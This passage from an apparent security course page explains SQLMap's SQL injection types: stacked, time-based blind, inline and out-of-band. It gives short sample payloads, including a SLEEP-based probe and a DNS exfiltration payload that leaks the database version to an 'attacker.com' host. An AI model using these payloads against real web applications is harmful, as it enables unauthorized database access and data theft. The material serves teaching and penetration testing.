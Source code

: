 <p>Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one.  In case that there is a requirement for running non-query statements (e.g. <code>INSERT</code>, <code>UPDATE</code> or <code>DELETE</code>), stacking must be supported by the vulnerable platform (e.g., <code>Microsoft SQL Server</code> and <code>PostgreSQL</code> support it by default). SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.</p>
<hr/>
<h2>Time-based blind SQL Injection</h2>
<p>Example of <code>Time-based blind SQL Injection</code>:</p>
<pre><code class="language-SQL">AND 1=IF(2&gt;1,SLEEP(5),0)
</code></pre>
<p>The principle of <code>Time-based blind SQL Injection</code> is similar to the <code>Boolean-based blind SQL Injection</code>, but here the response time is used as the source for the differentiation between <code>TRUE</code> or <code>FALSE</code>.</p>
<ul>
<li>
<p><code>TRUE</code> response is generally characterized by the noticeable difference in the response time compared to the regular server response</p>
</li>
<li>
<p><code>FALSE</code> response should result in a response time indistinguishable from regular response times</p>
</li>
</ul>
<p><code>Time-based blind SQL Injection</code> is considerably slower than the boolean-based blind SQLi, since queries resulting in <code>TRUE</code> would delay the server response. This SQLi type is used in cases where <code>Boolean-based blind SQL Injection</code> is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g. <code>INSERT</code>, <code>UPDATE</code> or <code>DELETE</code>), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, as <code>Boolean-based blind SQL Injection</code> would not really work in this case.</p>
<hr/>
<h2>Inline queries</h2>
<p>Example of <code>Inline Queries</code>:</p>
<pre><code class="language-SQL">SELECT (SELECT @@version) from
</code></pre>
<p>This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.</p>
<hr/>
<h2>Out-of-band SQL Injection</h2>
<p>Example of <code>Out-of-band SQL Injection</code>:</p>
<pre><code class="language-SQL">LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
</code></pre>
<p>This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.</p>
<p>By running the SQLMap on the DNS server for the domain under control (e.g. <code>.attacker.com</code>), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. <code>foo.attacker.com</code>), where <code>foo</code> would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the <code>foo</code> part, to form the entire SQL response.</p>
<div class="d-inline-block mb-2 solutionSettings solutionSettingsOffsets" id="solutionsModuleSetting">
<div class="border border-secondary p-2 rounded">
<div class="custom-control custom-switch d-flex">
<input class="custom-control-input" disabled="" id="showSolutionsModuleSetting" type="checkbox"/>
<label class="custom-control-label font-size-14 font-weight-normal text-white" for="showSolutionsModuleSetting">
                                Enable step-by-step solutions for all questions
                            </label>